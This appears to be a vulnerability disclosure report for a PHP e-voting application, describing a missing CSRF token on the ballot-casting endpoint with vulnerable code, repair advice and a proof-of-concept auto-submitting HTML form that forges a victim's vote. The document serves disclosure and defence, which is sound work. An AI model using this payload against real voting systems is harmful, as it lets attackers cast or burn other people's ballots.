

# SourceCodester Secured E-Voting System 1.0 /election/ballot.php votes[]= Missing CSRF Token allows Cross-Site Vote Casting

## NAME OF AFFECTED PRODUCT(S)

- Secured E-Voting System (St Paul Academy Alumni 2001 set e-voting portal)

## Vendor Homepage

- https://www.sourcecodester.com/php/18790/secured-e-voting-system.html

## AFFECTED AND/OR FIXED VERSION(S)

### submitter

- (submitter name pending user confirmation — will be filled from vuldb.txt account at submission time)

## Vulnerable File

- /election/ballot.php

## VERSION(S)

- 1.0 (current public download, 2026-11)

## Software Link

- https://www.sourcecodester.com/download-code?nid=18790&title=Secured+E-Voting+System+using+PHP+and+MySQL+Source+Code

# PROBLEM TYPE

## Vulnerability Type

- Cross-Site Request Forgery (CWE-352) on the state-changing vote action

## Root Cause

- The ballot form that casts the actual vote contains **no CSRF token whatsoever** — unlike the login/signup pages of the same application, which do carry `csrf_token`. The handler acts purely on POST parameters plus the ambient session:

```php
// election/ballot.php:38-47 (vote handler; no token check at any point)
if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['cast_vote'])) {
    $election_id = $_GET['id'];                     // ← attacker-chosen election
    ...
    foreach ($_POST['votes'] as $position_id => $candidate_id) {   // ← attacker-chosen vote
        $encrypted = openssl_encrypt($candidate_id, ...);
        // INSERT into votes ...
    }
}
```

- The only protections a voter's browser relies on here are the `PHPSESSID` cookie — which a cross-site form POST carries automatically (SameSite is not set by PHP's default session cookie parameters in this deployment) — and nothing else.

## Impact

- An attacker web page can silently **cast a vote on behalf of any logged-in voter** who merely visits it: a hidden auto-submitting form posts `votes[<position>]=<chosen candidate>` to `/election/ballot?id=<election>` and the server records the attacker's chosen candidate as the victim's vote, then redirects the victim to `vote_success`. In an election product this is ballot-stuffing by proxy; combined with the `has_voted` flag it also lets an attacker **burn** a voter's ballot by casting it for a fringe candidate before the voter votes.

# DESCRIPTION

- During the security review of "Secured E-Voting System", the vote-casting endpoint `/election/ballot.php` was found to lack any CSRF token. A cross-site auto-submitting form can therefore cast votes with the victim's session. The attack was demonstrated locally with an off-origin HTML page (served from a different port, simulating a foreign origin) whose form auto-submitted to the ballot endpoint with the voter's cookie, producing a recorded vote and the success redirect.

# Login required? — Yes, the *victim* must be logged in (standard CSRF precondition); the attacker needs no account

# Vulnerability details and POC

## Vulnerability location:

- `votes[<position_id>]`, `cast_vote` parameters (POST), `/election/ballot.php?id=<election_id>`

## Attack page (hosted on a different origin, e.g. attacker.example):

```html
<form id=f method="POST" action="http://127.0.0.1:8138/election/ballot?id=5">
  <input type="hidden" name="votes[5]" value="21">
  <input type="hidden" name="cast_vote" value="1">
</form>
<script>document.getElementById('f').submit();</script>
```

## Steps (verified locally at http://127.0.0.1:8138):

1. Log in as a voter (fresh session, `has_voted=0`).
2. Load the attacker page from the foreign origin → browser POSTs to the ballot endpoint with the victim cookie attached.
3. Server responds:

```
HTTP/1.1 302 Found
Location: /election/vote_success
```

4. The `votes` table now contains the forged ballot (candidate 21 / position 5) and `users.has_voted=1` for the victim — the vote was recorded with **no token, no origin check, no confirmation**.

Full evidence log: `poc/F07-ballot-no-csrf.txt`

## Screenshot: ballot page POST (cast_vote) → 302 redirect to vote_success



# Suggested repair

1. **Per-session CSRF token** on the ballot form (the app already generates tokens on login/signup — reuse that mechanism) and validate it before the vote INSERT.
2. **Check `Origin`/`Referer`** headers server-side as defense in depth.
3. **Set `SameSite=Lax`** (or `Strict`) on the session cookie and consider `HttpOnly`+`Secure`.
4. **Confirmation step**: render a review page ("You voted for X — confirm") so a silent forged POST cannot complete the action.

# Dedup note

- NVD: 0 CVEs for this product (checked 2026-11-09). VulDB: no entries for this product or `/election/ballot`.
